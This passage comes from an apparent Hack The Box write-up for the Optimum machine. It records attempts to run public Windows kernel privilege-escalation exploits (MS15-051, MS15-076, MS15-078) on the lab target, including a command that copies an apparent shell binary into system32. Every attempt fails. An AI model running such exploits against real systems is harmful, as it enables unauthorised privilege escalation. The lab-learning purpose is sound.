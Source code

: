 ## Kernel exploits used

### MS15-051

[Source](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

```
C:\Users\kostas\AppData\Local\Temp\Temp>MS15-051.exe
MS15-051.exe

C:\Users\kostas\AppData\Local\Temp\Temp>37049-32.exe
37049-32.exe
```

Nothing happened.

### MS15-076

[Source](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-076). Reading it the compiled exploit seem to allow privileged file copy only. So I shouldn't even try this, but I did so anyway.

```
C:\Users\kostas\AppData\Local\Temp\Temp>Trebuchet.exe
Trebuchet.exe
[+] Usage: Trebuchet [startFile] [destination]
    Example: Trebuchet C:\users\public\libraries\cryptsp.dll C:\windows\system32\wbem\cryptsp.dll

C:\Users\kostas\AppData\Local\Temp\Temp>Trebuchet.exe shell53.exe C:\Windows\system32\shell53.exe
Trebuchet.exe shell53.exe C:\Windows\system32\shell53.exe

Unhandled Exception: System.IO.FileNotFoundException: Could not load file or assembly 'Microsoft.VisualStudio.OLE.Interop, Version=7.1.40304.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' or one of its dependencies. The system cannot find the file specified.
   at Trebuchet.Program.DoRpcTest(Object o, RpcContextSplit& ctx, String rock, String castle)
   at System.Threading.ExecutionContext.RunInternal(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   at System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   at System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state)
   at System.Threading.ThreadHelper.ThreadStart()
```

### MS15-078

I couldn't find any pre-compiled binary so I had to compile what I could find such as [this](https://gist.github.com/sh1n0b1/6fc0638cbf5593e87b5d). Unfortunately compilation failed and I couldn't fix it.

```
root@Kali:~/HTB/Optimum/KE# gcc elevator.c -o elevator.exe
elevator.c:3:10: fatal error: lib.h: No such file or directory
    3 | #include <lib.h>
      |          ^~~~~~~
compilation terminated.

root@Kali:~/HTB/Optimum/KE# gcc elevator.c -o elevator.exe
elevator.c:3:10: fatal error: lib.h: No such file or directory
    3 | #include "lib.h"
      |          ^~~~~~~

```

